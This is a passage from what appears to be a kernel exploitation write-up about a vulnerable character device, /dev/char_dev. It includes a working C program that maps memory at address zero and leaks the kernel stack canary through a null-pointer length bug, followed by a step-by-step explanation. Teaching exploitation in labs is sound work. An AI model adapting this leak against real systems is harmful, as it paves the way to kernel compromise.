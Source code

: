 Thus, if we can write data at address zero that exceeds the size of the
buffer on the stack, then we will get a kernel stack overflow.

Excellent. We now have a full understanding of what kind of
vulnerability we have. But how do we build the operation?

First you need to get a kernel stack canary. This can be done by
creating a buffer long enough to fill the entire stack space up to the
canary, but not touch it. Then the function for calculating the length
will go through the canary and we will get its value.

{% highlight c %}
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <fcntl.h>

uint64_t canary;

int main()
{
    char *mem = mmap(0, 0x1000, 7, 50, -1, 0);

    int leak = open("/dev/char_dev", O_RDONLY);
    int f_tmp = open("/dev/char_dev", O_RDONLY);
    close(f_tmp);

    memset(mem, 'X', 47);
    mem[47] = '\n';
    char s[256] = {0};

    read(leak, s, 48);
    memset(mem, 'X', 48);
    mem[48] = '\n';

    read(leak, s, 96);
    memcpy(&canary, &s[1], 8);

    printf("{+} Kernel stack canary: 0x%llx\n", canary);
    return 0;
}
{% endhighlight %}

So, our strategy for getting a canary:

1.  Create a memory page at address 0,

2.  We open the device two times and close one of them so that in the
    second the pointer becomes zero,

3.  We fill our memory with data at address zero and read it for the
    first time (first 47 bytes),

4.  Add one more byte and read again (second 48 bytes).
